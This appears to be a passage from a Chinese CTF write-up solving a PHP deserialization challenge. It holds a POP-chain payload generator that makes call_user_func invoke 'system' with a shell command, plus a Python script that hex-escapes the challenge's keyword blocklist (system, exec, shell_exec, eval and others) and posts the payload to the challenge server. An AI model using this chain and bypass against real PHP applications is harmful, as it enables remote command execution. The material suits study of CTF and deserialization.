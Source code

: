 		  // Bei::__destruct --> Yang::__call
		  // Yang: 绕过wakeup
		  // call_user_func($this->now[$name], $ary[0]);
		  
		  $cheng = new Cheng();
		  $cheng -> name = [
		      "finish" => true
		  ];
		  
		  $yang = new Yang();
		  $yang -> key = true;
		  $yang -> finish1 = $cheng;
		  $yang -> finish = $cheng;
		  $yang -> now = [
		      "YCB1" => "system"
		  ];
		  $bei = new Bei();
		  $bei -> CTF = new Yang();
		  $bei -> CTF -> finish = new Cheng();
		  $bei -> CTF -> finish -> name = [
		      "finish" => true
		  ];
		  $bei -> fine = $yang;
		  $bei -> rce = "cat /tmp/catcatf1ag.txt";
		  $bei -> rce1 = "x";
		  
		  echo "payload" . "start" .  base64_encode(serialize($bei)) . "stop";
		  
		  function prohib($a){
		      $filter = "/system|exec|passthru|shell_exec|popen|proc_open|pcntl_exec|eval|flag/i";
		      return preg_replace($filter,'',$a);
		  }
		  
		  $a = $_POST["CTF"];
		  if (isset($a)){
		    unserialize(prohib($a));
		  }
		  ?>
		  ```
	- 最后使用`S:\d:`的形式转义其中的system字段
		- ```python
		  url = "http://tcp.cloud.dasctf.com:25874/p0p.php"
		  
		  r = base_get("http://127.0.0.1:8081")
		  result = re.search("payloadstart(.+)stop", r.text)
		  payload = result.group(1)
		  payload = enc_dec.base64_decode(payload)
		  for result in re.finditer('s:\d+:"([A-Za-z0-9]+)";', payload):
		      if not re.search('(system|exec|passthru|shell_exec|popen|proc_open|pcntl_exec|eval|flag)', result.group(0)):
		          continue
		      raw_content = result.group(1)
		      content = "".join("\\" + hex(ord(c))[2:] for c in raw_content)
		      payload = payload.replace(
		          result.group(0),
		          "S" + result.group(0)[1:5] + content + '";'
		      )
		      print(result)
		  r = base_post(url, data = {
		      "CTF": payload
		  }, allow_redirects = False)
		  print(r.headers)
		  print(r.text)
		  ```